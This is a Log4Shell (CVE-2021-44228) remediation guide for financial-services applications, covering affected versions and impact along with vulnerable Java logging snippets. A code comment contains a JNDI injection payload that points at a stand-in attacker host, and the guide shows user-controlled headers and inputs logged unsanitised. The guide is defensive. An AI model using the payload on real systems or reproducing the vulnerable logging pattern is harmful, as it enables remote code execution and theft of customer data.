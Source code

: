 # CVE-2021-44228 (Log4Shell) Remediation Guide for BFSI Applications

## Executive Summary

**CVE ID**: CVE-2021-44228  
**Vulnerability**: Log4Shell - Remote Code Execution in Apache Log4j  
**CVSS Score**: 10.0 (Critical)  
**Discovery Date**: December 9, 2021  
**Financial Impact**: CRITICAL - Affects payment processing and customer data systems  

## Vulnerability Overview

### Description
Apache Log4j 2.x contains a vulnerability where specially crafted strings can trigger JNDI lookups that result in remote code execution. This vulnerability affects applications that use Log4j for logging and can be exploited through various input vectors including HTTP headers, form parameters, and log messages.

### Affected Versions
- Apache Log4j 2.0 through 2.14.1
- Apache Log4j 2.15.0 (incomplete fix)
- Apache Log4j 2.16.0 (incomplete fix for some edge cases)

### Financial Services Impact
- **Payment Processing**: Attackers could execute arbitrary code on payment processing servers
- **Customer Data**: PII and financial data could be exposed or manipulated
- **Regulatory Compliance**: Potential violations of RBI, SEBI, and IRDAI guidelines
- **Business Continuity**: Complete system compromise possible

## Technical Analysis

### Attack Vectors in BFSI Context

#### 1. Payment Form Exploitation
```java
// Vulnerable code example
logger.info("Processing payment for user: {}", userInput);
// If userInput contains "${jndi:ldap://attacker.com/exploit}"
// This will trigger JNDI lookup and RCE
```

#### 2. HTTP Header Injection
```java
// Common vulnerability in web applications
String userAgent = request.getHeader("User-Agent");
logger.info("Request from user agent: {}", userAgent);
// Malicious User-Agent header can trigger exploit
```
